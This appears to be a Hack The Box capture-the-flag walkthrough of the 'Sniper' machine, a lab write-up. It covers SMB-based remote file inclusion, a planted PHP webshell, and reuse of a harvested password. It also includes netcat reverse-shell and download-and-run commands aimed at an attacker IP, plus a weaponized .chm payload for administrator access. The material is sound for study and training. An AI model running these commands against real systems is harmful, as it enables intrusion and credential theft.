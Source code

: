 ```yaml
---
date: 2025-02-18
categories: [CTF, HTB]
title: "HTB - Sniper"
tags: ['ftp', 'impacket', 'linux', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'reverse shell', 'smb', 'webshell', 'windows']

description: "Sniper - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Sniper

```bash
nmap 10.129.229.6 -p-
```

![image1](../resources/b0823e0d51b9450f857133a21719c4f4.png)

```bash
nmap 10.129.229.6 -A -p 80,135,139,445,49667
```

![image2](../resources/f01b83f612f5420e9951af814b32cd61.png)

- By selecting a language:

![image3](../resources/9bfd324d519442bf937e248f39b85720.png)

- We can see that a .php file gets included

- This could be a potential LFI (Local File Inclusion)

- We add a known Windows file into the path
  - /Windows\System32\drivers\etc\hosts
  - /windows/win.ini

**(Don't include C:\\ Just add a forward slash / to represent the root directory**


![image4](../resources/1746e4369e2048c6b9ab1ff4abd358eb.png)

And the response:

![image5](../resources/ef9030bf4cc041df9c4fd2532e7e206a.png)

- We can try RFI through http ie. ?lang=//10.10.14.84/test.php
But in the PHP configuration file, "**allow_url_include**" wrapper **by-default set to "Off"** which instruct PHP not to load remote HTTP or FTP URLs

**But it doesn't include SMB**

**<u>Exploit:</u>**
[https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](https://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

- Create a file to test (displays php server info):

```bash
echo "<?php phpinfo(); ?>" | tee /tmp/share/test.php

```

- Tried it with impacket-smbserver but we get a connection and it closes

- So following the link above:

```bash
sudo su
apt install samba
mkdir /tmp/share
chmod 0555 /tmp/share
chown -R nobody:nogroup /tmp/share
cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
echo > /etc/samba/smb.conf
nano /etc/samba/smb.conf

```

<u>Enter the below into smb.conf:</u>

```bash
[global]

workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[share]
path = /tmp/share
writable = yes
guest ok = yes
guest only = yes
read only = no
directory mode = 0555
force user = nobody
```

```bash
service smbd restart
```

- Note: The **\[share\]** is the sharename
So we have to go to **?lang=\\10.10.14.84\share\test.php**


![image6](../resources/4036e457ef704831bf4c0c0433abe9b3.png)

It worked!

- Now let's get an interactive web shell:

```bash
git clone https://github.com/incredibleindishell/Mannu-Shell.git
cd Mannu-Shell
cp mannu.php /tmp/share

```
**/blog/?lang=\\10.10.14.84\share\mannu.php**


![image7](../resources/5a285eb9a22a4d58b597168183d1c199.png)

We get this weird looking indi web shell

- We can execute commands:

![image8](../resources/f1d4373b3e13496d8882e38daca7bce9.png)

Create a Powershell reverse shell from revshells and execute:


![image9](../resources/ef5dbdfd001141aeae6206c764929558.png)

We get a more stable shell as user **iusr**:


![image10](../resources/6e8f99e8173a46b89951dc8feb4947f4.png)


![image11](../resources/3db899fe59d44200807503c0a9fdf95a.png)

SeImpersonatePrivilege is set
- But I can't exploit that here

Moving on:
- We get credentials in **C:\inetpub\wwwroot\user\db.php**

![image12](../resources/e5e14b52a760451dbdb920ed1b7229fe.png)

**36mEAhz/B8xQ~2VM**

- There is another user - Chris

![image13](../resources/01f20af06aa843e68f07e96bd5336f5c.png)

- We can check if the credentials were reused:  
```bash
crackmapexec smb 10.129.202.21 -u "chris" -p '36mEAhz/B8xQ~2VM'

```

![image14](../resources/55027208299e4240b7cd749dc76848a9.png)

- Checking with powershell:

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { whoami } -credential $credential;

```

![image15](../resources/3ea1bcd8001c426f8a4ef58e29f74908.png)

- Now we know the credentials are being reused - we can try and get a shell:
**(Msfvenom generated payloads didn't work - only nc.exe worked)**

- Get nc.exe ready
- Start a python http server and a nc listener

```bash
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM";
$credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.84/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;
Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4444} -credential $credential;

```
**or**

```bash
invoke-command -computer sniper -scriptblock { C:\Users\chris\nc.exe 10.10.14.84 1234 -e powershell.exe } -credential $cred

```

![image16](../resources/f63c862f58734ca09008ed61b556c103.png)

- Got a shell as Chris:

![image17](../resources/4906d7dcef4a45b8be5f661c8633da5d.png)

Looking through the folders, there is a file in Chris' Downloads folder


![image18](../resources/5bc4ecccf002498b822b783c56b253aa.png)

Also, in the C:\\ root directory, there is a Docs folder with some files


![image19](../resources/bed0b474e72247da86751d3c7e88db42.png)

We can read the note.txt file:


![image20](../resources/59ac772837314e7688d40561c52fa705.png)

But the other two files, can't be read on here, so we need to transfer them to our machine:

I tried to use the Samba SMB share but it kept saying Access Denied.

So I stopped the smbd service. And started impacket-smbserver in the directory


![image21](../resources/0f1fa70bac96487f877121b67a033da9.png)


![image22](../resources/9fd3e68c190e4cceb07e2654e3e6c27e.png)

I opened the instructions.chm on a Windows VM:


![image23](../resources/ea267fdc263b4c7689884e526c83b22e.png)

**<u>Exploit:</u>**

Following this guide, we can create a malicious .chm file:

[https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e](https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e)

- Open a Windows VM
- Download HTML Help Workshop and Documentation program (if not already installed)
- Download the Out-CHM.ps1 module (or copy and paste):
<https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1>

- Open PS as admin and run:  
```powershell
Set-ExecutionPolicy Unrestricted
Import-Module .\Out-CHM.ps1
out-chm -Payload "C:\Users\chris\nc.exe -e cmd.exe 10.10.14.84 4445" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

![image24](../resources/652b6c86103b4b7391c80a8562fcb169.png)

- Copy the create doc.chm back to the Kali VM and host an SMB share
- Now copy the doc.chm file from Kali to the victim machine C:\Docs folder

- Set up a listener on the port you specified

- And we have a shell back from the Administrator and can read root.txt:

![image25](../resources/6a6f4483d5d541e191d495b2ffb0df47.png)